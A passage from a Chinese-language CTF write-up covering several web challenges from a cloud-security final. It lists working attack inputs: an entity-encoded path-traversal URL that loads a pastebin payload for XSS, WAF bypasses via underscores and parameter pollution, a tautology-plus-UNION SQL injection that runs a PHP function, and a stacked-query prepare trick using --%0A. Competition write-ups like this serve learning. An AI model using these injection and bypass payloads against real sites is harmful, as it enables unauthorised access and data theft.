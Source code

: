 换种思路，根据三种解析器顺序，实体编码

```
http://120.78.164.84:49099/4f6cd853/?name=https://pastebin.com/overwatch%26%2337;%26%2350;%26%2370;..%26%2337;%26%2350;%26%2370;raw/TwueyDBm
```

再次alert，还是没flag...??

出题人说考点是`&percnt`???

```
http://120.78.164.84:49099/4f6cd853/?name=https://pastebin.com/overwatch%26percnt;2f..%26percnt;2fraw/TwueyDBm
```

***

## 数字经济云安全线下决赛

### RealWorld

两道题都挺简单，水了个一血，不细说了

### Qclound

可以下划线代替空格绕WAF...? 青云的WAF是真的nb

也可HPP绕（看别的师傅还有超长前置参数）

后端是SQLite数据库

### JDyun

脑洞题，莫名其妙

token提示length错误，需永真式绕

然后从数据库里取出字符串当作PHP函数执行

```
?cmd=submitcmd&token=111'or'1&command='union select 1,2,'get_defined_functions
```

有一个get_lower_flag函数，调用即得flag

***

### Aliyun

这题是初赛的原题，当时被人删库就下线了，结果到了决赛挂了个阿里云WAF重新上线（初赛还有提示set/prepare不能同时出现，决赛啥都没，服了）

阿里云WAF祭出`--%0A`大法绕，最后还是堆叠+预编译思路（和强网杯一样），通过select into 替代set`select 0xFFFF into @a;prepare s from @a`

***

## 2019 3CTF
